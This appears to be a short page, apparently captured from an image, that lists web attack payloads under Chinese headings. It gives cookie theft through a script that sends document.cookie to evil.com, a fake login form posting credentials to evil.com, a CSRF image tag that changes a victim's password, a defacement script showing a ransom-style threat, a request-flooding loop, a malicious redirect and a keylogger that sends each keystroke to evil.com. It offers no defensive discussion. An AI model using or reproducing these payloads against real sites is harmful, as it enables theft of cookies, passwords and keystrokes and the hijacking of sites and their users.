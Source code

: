 ## 竊取 cookies
```html
<script>
  fetch('http://evil.com/steal?cookie=' + document.cookie);
</script>
```
## 偽造登入頁面
```html
<form action="http://evil.com/phish" method="POST">
  <input type="text" name="username" placeholder="帳號">
  <input type="password" name="password" placeholder="密碼">
  <input type="submit" value="登入">
</form>
```
## 執行 CSRF 攻擊
```html
<img src="http://victim.com/change-password?newpassword=hacked" />
```
## 網頁劫持 (勒索訊息)
```html
<script>
  document.body.innerHTML = "<h1>網站已被駭客入侵</h1><p>請盡速報名第二階段，否則我將盜光你的帳戶</p>";
</script>
```
## 發動 DDos 或惡意轉址
```html
<script>
  setInterval(() => {
    fetch('http://victim.com'); // 不斷發送請求
  }, 100);
</script>
```
```html
<script>
  window.location.href = "http://evil.com";
</script>
```
## 鍵盤側錄 (Keylogging)
```html
<script>
  document.addEventListener("keypress", function(event) {
    fetch('http://evil.com/log?key=' + event.key);
  });
</script>
```
